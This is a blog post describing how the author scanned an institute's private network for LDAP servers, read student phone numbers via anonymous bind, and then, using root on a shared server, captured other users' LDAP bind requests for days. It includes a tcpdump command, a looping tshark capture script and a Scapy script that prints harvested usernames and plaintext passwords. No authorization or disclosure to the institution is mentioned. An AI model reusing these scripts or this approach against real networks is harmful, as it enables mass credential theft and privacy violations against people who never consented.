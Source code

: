 ```yaml
---
title: "Extracting Passwords in Plaintext by Sniffing LDAP Bind Requests"
description: In this blog, I’ll share how I retrieved plaintext passwords by intercepting unencrypted LDAP Bind Requests on a remote server where I gained root access.
date: 2024-09-28T07:09:31+05:30
image: assets/images/network_traffic_analysis.png
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["cybersecurity", "infosec", "network", "sniffing", "tcpdump", "tshark", "wireshark", "ldap"]
categories: ["cybersecurity", "infosec", "network"]
---
```

## LDAP Servers on Network
I decided to investigate the LDAP servers within my institute's private network, which utilizes Class B private IP addresses.<br />
I employed [Gill-Singh-A/Port-Scanner](https://github.com/Gill-Singh-A/Port-Scanner) to scan for LDAP ports (389, 636, 3268, 3269) and discovered 49 devices with at least one of these ports open.<br />
![LDAP Port Scan](assets/images/port_scan.png)
## LDAP Anonymous Bind
Following that, I used [Gill-Singh-A/LDAP-Anonymous-Bind-Checker](https://github.com/Gill-Singh-A/LDAP-Anonymous-Bind-Checker) to assess LDAP Anonymous Bind support, finding that 32 devices allowed anonymous binding.<br />
![LDAP Anonymous Bind Check](assets/images/ldap_anonymous_bind_check.png)<br />
After some exploration, I discovered the LDAP server responsible for managing authentication requests for our Computer Center’s credentials.<br />
The server was identified by the hostname **ldap.cc.iitk.ac.in**, supported LDAP Anonymous Bind.
## Computer Center LDAP Server
After manually exploring **ldap.cc.iitk.ac.in**, I discovered that I could retrieve any student’s mobile number using a simple search query.<br />
![CC LDAP Student Information](assets/images/cc_ldap_student_info.png)<br />
However, what truly alarmed me was that the server was not utilizing SSL for data transmission over the network. This meant that all Computer Center credentials used for authenticating to services like Web Mail and SSH servers were being transmitted as plaintext, making them easily accessible to anyone intercepting the traffic.<br />
![LDAP Authentication](assets/images/ldap_authentication.png)
## Network Traffic Capture
To verify my suspicions, I launched **tcpdump** on a remote server at our institute where I had root access and where users can SSH in using their Computer Center credentials. I began intercepting the network traffic on that server. Specifically, I filtered for port 389 to capture only LDAP traffic.
```bash
sudo /usr/sbin/tcpdump -s 65535 -w network_traffic_capture.pcap 'tcp port 389'
```
After successfully logging into the server using my Computer Center credentials on another terminal, I stopped the network capture and downloaded the pcap file for further analysis.
## Network Traffic Analysis
After opening the pcap file in **Wireshark** and conducting some analysis, I was able to find my Computer Center user ID and password in plaintext within an LDAP Bind Request.<br />
![Network Traffic Analysis](assets/images/network_traffic_analysis.png)<br />
This confirmed my suspicions: the Computer Center credentials were indeed transmitted as plaintext.
## Capturing using tshark
Next, I created a simple bash script that utilized **tshark** to capture LDAP network traffic on the server and save it into a pcap file. The script processes the pcap file once it reaches 100 MB, filtering to include only LDAP Bind Requests and storing the results in my NFS (Network File System) Directory.
```bash
#! /bin/bash

index=0

while true; do
	/usr/sbin/tshark -w webhome.pcap -i 1 -f "tcp port 389" -a filesize:100000
	/usr/sbin/tshark -r webhome.pcap -R "frame contains \"ou=People,dc=iitk,dc=ac,dc=in\" and ldap.bindRequest" -w webhome_filtered_${index}.pcap
	chmod 600 webhome_filtered_${index}.pcap
	rm -f webhome.pcap
	((index++))
done
```
## Extracting Passwords from Capture File
After collecting LDAP Bind Requests for some days, I downloaded the processed capture file and created a simple Python script using [Scapy](https://scapy.net/) to extract the user IDs and their corresponding passwords. This allowed me to determine how many credentials I had successfully retrieved.
```python
#! /usr/bin/env python3

from sys import argv
from scapy.all import rdpcap, LDAP_BindRequest, TCP, LDAP
from colorama import Fore

packets = rdpcap(argv[1])              # argv[1] Network Capture File (.pcap)

for pkt in packets:
    if LDAP_BindRequest in pkt and pkt[TCP][LDAP][LDAP_BindRequest].authentication.val != b'':
        print(f"{Fore.CYAN}{pkt[TCP][LDAP][LDAP_BindRequest].bind_name.val.decode().split(',')[0].split('=')[1]}\t{Fore.RESET}=>\t{Fore.GREEN}{pkt[TCP][LDAP][LDAP_BindRequest].authentication.val.decode()}{Fore.RESET}")
```
The following was the output<br />
![Extraced Passwords](assets/images/passwords_extracted.png)<br />
## Conclusion
This investigation revealed significant security concerns regarding the transmission of sensitive data over unencrypted connections. It's crucial to implement proper security measures to protect user information in our digital landscape.<br />
As we navigate our digital landscape, it’s essential to ensure that proper security measures are in place to protect user information.